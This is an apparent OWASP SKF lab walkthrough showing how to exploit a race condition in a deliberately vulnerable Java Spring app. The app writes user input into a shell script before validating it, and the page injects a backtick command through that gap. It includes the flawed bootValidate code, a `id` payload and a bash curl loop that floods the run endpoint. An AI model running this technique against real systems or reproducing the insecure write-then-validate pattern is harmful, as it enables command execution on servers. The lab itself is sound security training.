 # Java - Race Condition

## Running the app Java

First make sure java is installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](../../.gitbook/assets/nodejs/RaceCondition/1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](../../.gitbook/assets/nodejs/RaceCondition/2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](../../.gitbook/assets/nodejs/RaceCondition/3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1.  `bootValidate(person)`

    the function receives the username in input and executes the following:

    * deletes `"` and `\` from the username
    * opens `hello.sh` file
    * writes a command in it
    * closes the file
    * logs some useful info
    * checks if the username is in the format `[A-Za-z0-9 ]*`
    * returns the username if the regex succedes
2. `bootClean()` that removes all the hello files (`hello.sh` and `hello.txt`)
3. `bootRun()` executes the `hello.sh` file
4. `bootReset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

* a GET request is issued to validate the username and call `bootValidate(person)`

```
GET /?person=test&action=validate
```

* clicking boot, will generate the request to execute the `bootRun()` function

```
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `bootRun()` executing the `hello.sh` file.

We also notice that the function `bootValidate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```java
public String bootValidate(String person) {
    try (FileWriter writer = new FileWriter("hello.sh", false)) {
      writer.write("echo \"" + person + "\" > hello.txt");
      writer.close();
      java.util.Date date = new java.util.Date();
      new ProcessBuilder("/bin/bash", "-c", "echo 'hello.sh updated -- " + date + "' > log.txt").start();
      new ProcessBuilder("/bin/bash", "-c", "echo 'hello.sh cleaned -- " + date + "' >> log.txt").start();
      Process p3 = new ProcessBuilder("/bin/bash", "-c", "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh")
          .start();
      BufferedReader reader = new BufferedReader(new java.io.InputStreamReader(p3.getInputStream()));
      String valid = reader.readLine();
      System.out.println(valid);
      return valid == null ? "" : valid;
    } catch (Exception e) {
      e.printStackTrace();
    }
    return "";
  }
```

Everything works fine, so where is the problem?

The problem is that in this case, we have a very small window to execute the `bootRun()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `bootValidate`
2. write the malicious payload in `hello.sh`
3. call `bootRun()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '\`' backtick.

So our payload will be:

```
`id`
```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```
#!/bin/bash
while true; do

	curl -i -s -k  -X $'GET' \
	    -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
	    $'http://localhost:5000/?action=run' | grep "Check this out"
done
```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](../../.gitbook/assets/nodejs/RaceCondition/4.png)

Congratulations, you won the race for real now!!!!!!!!

## Additional sources

{% embed url="https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}
